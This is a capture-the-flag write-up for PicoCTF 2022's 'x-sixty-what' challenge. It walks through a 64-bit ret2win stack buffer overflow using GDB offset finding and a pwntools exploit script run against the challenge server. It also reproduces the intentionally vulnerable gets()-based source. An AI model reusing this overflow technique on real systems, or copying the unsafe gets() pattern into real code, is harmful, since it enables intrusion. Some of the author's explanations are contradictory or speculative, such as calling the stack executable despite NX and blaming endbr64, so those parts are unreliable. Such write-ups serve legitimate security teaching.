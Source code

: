 ```yaml
---
layout: single
title:  "PicoCTF 2022 - x-sixty-what"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
---
```


Another ret2win challenge. Interestingly, this deals with 64-bit binaries instead of 32-bit.

As usual, John Hammond's [walkthrough video](https://www.youtube.com/watch?v=eg0gULifHFI&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=42) was very helpful for this challenge.

## My Solution
Let's take a look at the `vuln` binary. Using `file` and `checksec`, we observe the following:
```bash
$ file vuln
>> vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, 
BuildID[sha1]=8ba2226f06946bc75922ba6fb1919e6283162f22, for GNU/Linux 3.2.0, not stripped

$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
From this, we can observe that the file:
- is a 64-bit ELF file,
- is not stripped,
- has no PIE, and
- has very little protection in place (stack is executable, no stack canary).

Now, looking at `vuln.c`, we can note down some interesting features.
```c
...
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```
We can see that the provided file has a read buffer size of 64, and has a `flag()` function present. Like most binary exploitation challenges, the vulnerable `gets()` function is used here to retrieve user input. 

It appears that nothing is out of the ordinary here. We just need to note that this is a 64-bit binary, and we need to return to the `flag()` function to get our flag.

Now, let's use GDB to find the function addresses, and to determine the offset to RIP (not EIP, as this is a 64-bit binary).
```bash
$ gdb vuln
>> ...
gef➤ info functions
...
0x0000000000401236  flag
0x00000000004012b2  vuln
0x00000000004012d2  main
...
```
We observe that the address of `flag()` is `0x0000000000401236`.
```bash
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /mnt/c/Users/Gamer/Downloads/PicoCTF/2022/blog/vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x00000000004012d1 in vuln ()
```
As expected, we receive a segmentation fault. To determine where our RIP offset is, let's look at the stack.
```bash
0x00007fffffffd658│+0x0000: "jaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapa[...]"    ← $rsp
0x00007fffffffd660│+0x0008: "kaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqa[...]"
...
```
Notice that the pattern "jaaaaaaaka..." is found at the top of the stack. If this value was a valid memory address, then it should be popped from the stack and passed to RIP. Therefore, the offset to RIP will also be the offset to RSP, as RSP points to this pattern.
```bash
pattern offset $rsp
[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```
Thus, we have determined our offset to be 72 bytes. Additionally, we notice something interesting in the debugger. It appeared that the RIP doesn't get clobbered in this case, which is unlike what we've seen in 32-bit binaries.
```bash
$rip   : 0x00000000004012d1  →  <vuln+31> ret
```
Normally, we would've expected to see a bunch of 61s here. The reason for this is due to **canonical addressing** in x64 systems. Simply put, canonical addresses fall within a specific address size range. Addresses outside of this size range would be considered non-canonical, and will never be pushed into RIP. In this case, the maximum address size is 48 bits in length (or, 6 bytes). For us to control RIP, we will need to mask off the 2 most significant bytes from the 8 byte memory address of our `flag()` function.

To check this, let's generate a pattern of 78 bytes in length, and observe if RIP was clobbered.
```bash
gef➤  pattern create 78
[+] Generating a pattern of 78 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa
[+] Saved as '$_gef5'
gef➤  r
Starting program: /mnt/c/Users/Gamer/Downloads/PicoCTF/2022/blog/vuln
Welcome to 64-bit. Give me a string that gets you the flag:
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x000061616161616a in ?? ()
...
$rip   : 0x61616161616a
```
Indeed, our RIP was clobbered with exactly 6 bytes of data.

We can now proceed to solve this challenge. Using Python 3 and pwntools:
```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 49395) # for remote execution

# payload buffer
payload = b'A' * 72 # RIP offset
payload += p64(0x401236) # 0x0000000000401236

print(p.recvuntil(':'))
p.sendline(payload)
p.interactive()
```
However, in spite of the correct approach taken, this solution did not work, as I unexpectedly received a segmentation fault. If we refer to the challenge page on PicoCTF, we notice that this disclaimer was provided:
`Reminder: local exploits may not always work the same way remotely due to differences between machines.`

It appeared that entering the exact address of `flag()` does not work on all machines (explanation below!). To solve this challenge, I had to enter the address of a move instruction within the function instead.
`0x000000000040123b <+5>:     mov    rbp,rsp`

Making modifications to the Python script, we can now get the flag.
```python
...
payload = b'A' * 72 # RIP offset
payload += p64(0x40123b)
...
```
```bash
[+] Opening connection to saturn.picoctf.net on port 49395: Done
solve.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(p.recvuntil(':'))
b'Welcome to 64-bit. Give me a string that gets you the flag:'
[*] Switching to interactive mode

picoCTF{b1663r_15_b3773r_3e77a3f1}[*] Got EOF while reading in interactive
$
[*] Closed connection to saturn.picoctf.net port 49395
```

## Learning Takeaways
**Why did the program fail to call `flag()` when we loaded the address of flag into the payload?**
Let's disassemble `flag()`.
```bash
gef➤  disas flag
Dump of assembler code for function flag:
0x0000000000401236 <+0>:     endbr64
0x000000000040123a <+4>:     push   rbp
0x000000000040123b <+5>:     mov    rbp,rsp
0x000000000040123e <+8>:     sub    rsp,0x50
...
```
We notice that the function address points to a `endbr64` instruction. After doing some brief research, it seems that this is a form of ROP protection on Intel-based chips. In short, the presence of this instruction prevents attackers (like us) from directly manipulating return addresses of functions on the call stack, thus preventing us from calling `flag()`. 

To bypass this, we made the program jump to an instruction within `flag()` instead. There was some trial and error involved, but it seemed like jumping to the move instruction was the right approach.

Generally, we've learnt that x64 systems behave differently from x32. For instance, 32-bit systems can read off the stack directly, while 64-bit systems refer to registers on the stack, which makes manipulation of the call stack a bit more challenging. There's also the concept of canonical addresses which was mentioned above.

## References
- [John Hammond (YouTube): x64 ret2win - LINUX Buffer Overflow (PicoCTF 2022 #41 'x-sixty-what')](https://www.youtube.com/watch?v=eg0gULifHFI&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=42)
- [64-bit Stack-based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow)
- [Exploiting Calling Conventions](https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions)
